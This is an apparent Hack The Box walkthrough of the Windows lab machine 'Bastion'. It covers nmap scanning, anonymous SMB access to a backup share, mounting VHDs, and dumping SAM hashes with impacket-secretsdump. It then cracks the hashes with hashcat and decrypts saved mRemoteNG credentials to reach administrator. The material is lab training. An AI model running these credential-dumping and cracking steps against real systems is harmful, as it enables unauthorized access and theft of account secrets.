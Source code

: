 # Bastion HTB Walkthrough

## Target Information
- **IP Address**: 10.10.10.134
- **Hostname**: bastion.htb
- **OS**: Windows Server 2016 Standard 14393

---

## 🛠 Initial Setup & Reconnaissance

### 🎯 Environment Preparation
1. Store target IP for automation:
```bash
echo "10.10.10.134" > target
```

2. Add DNS resolution to hosts file:
```bash
echo "10.10.10.134 bastion.htb" | sudo tee -a /etc/hosts
```

---

## 🔍 Network Enumeration

### Port Discovery
Performed full TCP port scan:
```bash
nmap -p- -iL target -v -oN nmap/tcp_ports_scan.txt
```

**Findings**:
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664-49670/tcp open  msrpc
```

### Service Enumeration
Aggressive scan on open ports:
```bash
ports=$(awk -F '/' 'NR>=6 && NR<=18 {print $1}' nmap/tcp_ports_scan.txt | paste -sd ',')
nmap -p$ports -sCV -oA nmap/service_scan -iL target
```

**Key Findings**:
- SMB (445/tcp): Windows Server 2016 Standard
- WinRM (5985/47001): Potential remote management access
- SSH (22/tcp): OpenSSH for Windows 7.9

---

## 📁 SMB Exploitation

### Share Enumeration
List available SMB shares:
```bash
smbclient -L \\\\bastion.htb\\ -N
```

**Discovered Shares**:
```
ADMIN$          - Remote Admin
Backups         - Potential backup storage
C$              - Default system share
IPC$            - Inter-process communication
```

![image](https://github.com/user-attachments/assets/ce65f502-3ed9-4113-bab3-5894284dfaca)

### Accessing Backups Share
Anonymous access to Backups share:
```bash
smbclient \\\\bastion.htb\\Backups -N
```

**Discovered Files**:
- 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd (System Boot)
- 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd (User Data)

### Mounting Virtual Hard Disks
1. Mount SMB share:
```bash
mkdir /mnt/backups
mount -t cifs //bastion.htb/Backups /mnt/backups -o ro,vers=2.1
```

3. Extract and mount VHD (if you got an error, try to list on it anyway):
```bash
mkdir /tmp/vhd
7z x /mnt/backups/9b9cfbc4-*.vhd -o/tmp/vhd
```

### Credential Extraction
Dump SAM database using Impacket:
```bash
impacket-secretsdump -sam /tmp/vhd/Windows/System32/config/SAM \
                     -system /tmp/vhd/Windows/System32/config/SYSTEM LOCAL
```

**Extracted Hashes**:
```
Administrator:500:aad3b... 
L4mpje:1000:aad3b... 
```

### Password Cracking
Crack NTLM hashes with Hashcat:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Initial Access

#### SSH Connection
Authenticate with obtained credentials:
```bash
ssh L4mpje@bastion.htb
```

You'll got the user flag.

## Resources

* This is another interesting way to mount vhd files: [Mounting VHD file on Kali Linux through remote share](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

---

## ⚙️ Privilege Escalation

**mRemoteNG Credential Extraction**

1. Found [mRemoteNG](https://mremoteng.org/) installed in:
```shell
C:\Program Files (x86)\
```

![Screenshot from 2025-04-13 11-44-43](https://github.com/user-attachments/assets/2d9c9075-9bd5-45d9-b7d0-281d6aa26a2e)

2. Config file with saved credentials:
```shell
C:\Users\<User>\AppData\Roaming\mRemoteNG\confCons.xml
```

![Screenshot from 2025-04-13 11-45-57](https://github.com/user-attachments/assets/3b5cf8f9-6d7d-4336-bbce-cde11edeee8c)

3. Base64 encoded password was found in the file.

4. Decrypt password using the Python tool [mRemoteNG Decrypt](https://github.com/kmahyyg/mRemoteNG-Decrypt):

```bash
git clone https://github.com/kmahyyg/mremoteng-decrypt.git
cd mremoteng-decrypt
python3 mremoteng_decrypt.py -s <Base64 string>
```

5. Logged in as Administrator using decrypted credentials.

### Resources

* [mRemoteNG](https://mremoteng.org/)
* [GitHub - mRemoteNG](https://github.com/mRemoteNG/mRemoteNG)
* [GitHub - mRemoteNG Decrypt](https://github.com/kmahyyg/mRemoteNG-Decrypt)

---

## 🏁 Summary

* ✅ Initial access: SMB share > VHD > Password hash dump > SSH login
* 🔐 Privilege escalation: Extract mRemoteNG creds > Decrypt > Admin access

---
